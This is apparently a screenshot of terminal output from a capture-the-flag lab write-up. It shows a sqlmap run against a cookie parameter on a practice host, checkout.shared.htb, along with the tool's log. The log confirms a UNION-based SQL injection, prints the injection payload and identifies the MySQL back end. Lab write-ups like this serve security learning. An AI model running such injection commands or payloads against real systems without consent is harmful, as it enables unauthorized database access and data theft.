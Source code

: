 ```

oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.6.12#dev}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:23:39 /2022-08-12/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:23:39] [INFO] testing connection to the target URL
[13:23:40] [INFO] checking if the target is protected by some kind of WAF/IPS
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[13:23:40] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
[13:23:41] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
[13:23:41] [INFO] testing 'Generic UNION query (NULL) - 3 to 3 columns (custom)'
[13:23:41] [WARNING] applying generic concatenation (CONCAT)
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[13:23:48] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[13:23:55] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 3 to 3 columns (custom)' injectable
[13:23:55] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qkzzq','qkLgtkpenVgVOfSjpNljLUkfXDPnOuEMartRDuNE'),'qzqvq'),NULL-- bgRi":"1"}
---
[13:23:57] [INFO] testing MySQL
[13:23:58] [INFO] confirming MySQL
[13:23:59] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:23:59] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/checkout.shared.htb'

[*] ending @ 13:23:59 /2022-08-12/

```

